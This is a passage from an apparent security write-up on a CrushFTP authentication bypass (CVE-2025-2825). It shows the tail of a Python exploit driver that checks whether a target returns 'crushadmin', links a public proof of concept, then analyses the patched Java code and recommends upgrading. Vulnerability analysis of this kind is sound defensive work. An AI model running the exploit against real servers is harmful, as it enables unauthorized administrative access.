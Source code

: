 ```java
    valid_username=args.valid_username
    )
    
    print("[*] CrushFTP Authentication Bypass Exploit")
    print(f"[*] Targeting: {args.target_url}")
    print(f"[*] Using username: {args.valid_username}")
    
    result = exploit.exploit()
    if "crushadmin" in result['response_text']:
        print("[+] CrushFTP Server is Vulnerable!")
        print("[+] Exploit Result:\n")
        for key, value in result.items():
            print(f"{key.title()}: {value}")
    else:
        print("[!] Not Vulnerable!")
```

Proof-Of-Concept can be found [here](https://github.com/pwnfuzz/POCs/blob/main/CVE%202025-2825).

![Untitled](/img/crushftp-cve-2025-2825/image_3.png)

### Evaluating Patched Version

Looking into the code, we see that now the applications checks whether the S3 authentication is supported or not, if not it will terminate the request with `AWS4-HMAC...` type. This is a good fix in itself as previously one can do authentication bypass even on servers with no S3 configuration.

```java
[..snip..]          
            boolean lookup_user_pass = true;
            if (s3_username.indexOf("~") >= 0) {
               user_pass = s3_username.substring(s3_username.indexOf("~") + 1);
               user_name = s3_username.substring(0, s3_username.indexOf("~"));
               lookup_user_pass = false;
            } else {
               var10000 = ServerStatus.thisObj;
               if (!ServerStatus.BG("s3_auth_lookup_password_supported")) {
                  return;
               }
            }
```

The following lines were added instead of the `login_user_check` call that we saw before, here the application tries to fetch the user’s `linkedServer` property which we can safely assume to be one of those properties which specifies whether the user has S3 authentication is enabled. If it is, internally it performs the proper check for the provided password.

```java
            Properties tmp_user = UserTools.ut.getUser(this.thisSession.server_item.getProperty("linkedServer", ""), user_name);
            if (tmp_user != null && lookup_user_pass) {
               user_pass = com.crushftp.client.Common.encryptDecrypt(tmp_user.getProperty("password"), false);
            }
```

It is recommended to update the CrushFTP version to 11.3.1 as this vulnerability can be very severe if targeted cleverly.
